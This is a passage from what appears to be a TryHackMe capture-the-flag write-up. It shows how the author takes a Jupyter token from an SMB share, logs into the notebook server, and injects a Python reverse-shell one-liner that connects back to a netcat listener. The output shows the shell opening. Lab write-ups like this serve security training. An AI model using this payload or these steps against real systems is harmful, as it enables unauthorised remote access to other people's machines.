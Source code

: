 There are too many files we can check for, but let’s check misc folder and its content.

```bash
smb: \> cd misc
smb: \misc\> ls
  .                                  DA        0  Thu Aug 25 11:26:47 2022
  ..                                 DA        0  Thu Aug 25 11:26:47 2022
  jupyter-token.txt                   A       52  Thu Aug 25 11:26:47 2022

                15587583 blocks of size 4096. 8952153 blocks available
smb: \misc\> get jupyter-token.txt 
getting file \misc\jupyter-token.txt of size 52 as jupyter-token.txt (0.1 KiloBytes/sec) (average 1.9 KiloBytes/sec)
```

Here, we go! jupyter notebook’s access token, looks like we can use this token on port 8888, where jupyter notebook was hosted. Let’s check!

---

### Port 8888

Here, as we were expecting, it requires token to authenticate and we have that token now, let’s authenticate ourself and change password to `pass` . 

<img width="1917" height="795" alt="image" src="https://github.com/user-attachments/assets/6ec03ea9-4bc5-42ac-8561-ba51c353ecce" />

Successfully logged inside of jupyter notebook server.

Here, we can see that same directory which was hosted on smbserver too. 

<img width="1917" height="707" alt="Screenshot_2025-07-17_143618" src="https://github.com/user-attachments/assets/690061ee-44ef-48cc-a9ac-5a229c4602bc" />

Now, we can potentialy edit that weasel.ipynb file and will inject our reverse shell there. Let’s check.

<img width="1918" height="711" alt="Screenshot_2025-07-17_143756" src="https://github.com/user-attachments/assets/fbc46b80-0f36-4e4f-9502-a61369f89c02" />

Can inject this payload here:

```python
import socket,os,pty;s=socket.socket();s.connect(("<ip>",4445));[os.dup2(s.fileno(),fd)for fd in(0,1,2)];pty.spawn("bash")
```

Setup your netcat on listening mode and as we click on run button, we should get reverse shell back on our kali machine.

```bash
┌──(ghost㉿kali)-[~/tryhackme/weasel]
└─$ rlwrap -f . -r nc -nvlp 4445
listening on [any] 4445 ...
connect to [10.17.87.131] from (UNKNOWN) [10.10.156.37] 50448
(base) dev-datasci@DEV-DATASCI-JUP:~/datasci-team$ whoami                                      whoami
whoami
dev-datasci
```

---